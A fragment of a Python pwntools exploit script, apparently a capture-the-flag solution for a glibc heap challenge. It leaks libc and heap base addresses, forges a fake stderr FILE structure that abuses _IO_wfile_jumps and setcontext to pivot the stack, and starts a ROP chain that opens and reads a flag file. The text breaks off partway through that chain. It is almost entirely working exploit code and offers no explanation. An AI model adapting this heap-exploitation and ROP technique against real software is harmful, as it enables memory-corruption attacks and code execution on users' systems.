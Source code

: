 ```python
add(1, 0x440, cyclic(0x440))
delete(0)
add(2, 0x450, cyclic(0x450))
show(0)#leak largechunk

libc_base = u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-0x21a0d0
stderr_addr = libc_base + 0x21a860
setcontext61 = libc_base + 0x53a6d
p.recvuntil("\x7f\x00\x00")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x290
log.success("libc_base = {}".format(hex(libc_base)))
log.success("heap0_base = {}".format(hex(heap_base)))
log.success("stderr_addr = {}".format(hex(stderr_addr)))

ret = 0x0000000000029cd6+libc_base
pop_rdi = 0x000000000002a3e5+libc_base
pop_rsi = 0x000000000002be51+libc_base
pop_rax = 0x0000000000045eb0 + libc_base
syscall = 0x0000000000091396 + libc_base

# debug()
#fake stderr----------------------------------------
fake_stderr = heap_base + 0xf70
fake_rdx = fake_stderr + 0x10 + 0x200
fake_stack = fake_stderr + 0x10 + 0x320
io = p64(0)*6
io += p64(1) + p64(2)#rcx!=0
io += p64(fake_rdx)#backup_base rdx
io += p64(setcontext61)
io = io.ljust(0x78, '\x00')
io += p64(libc_base+0x21ba60)#lock
io = io.ljust(0x90, '\x00')
io += p64(fake_stderr+0x30)#wide_data rax1
io = io.ljust(0xb0, '\x00')
io += p64(1)#mode
io = io.ljust(0xc8, '\x00')
io += p64(libc_base+libc.sym['_IO_wfile_jumps']+0x10)
io += p64(0)*6
io += p64(fake_stderr+0x40)
io = io.ljust(0x200, '\x00')
#fake rdx:
payload = "./flag\x00\x00"
payload = payload.ljust(0x68,"\x00")
payload += p64(0)#rdi->0
payload += p64(0)#rsi->0
payload = payload.ljust(0x88,"\x00")
payload += p64(0x100)#rdx->0
payload = payload.ljust(0xa0)
payload += p64(fake_stack)#rsp->chunk 1
payload += p64(ret)#rcx->ret
io += payload
io = io.ljust(0x320,"\x00")
#fake_stack:
payload = p64(libc_base+libc.sym['close'])
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(fake_rdx)
payload += p64(pop_rax)
payload += p64(2)
payload += p64(syscall)#open
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
```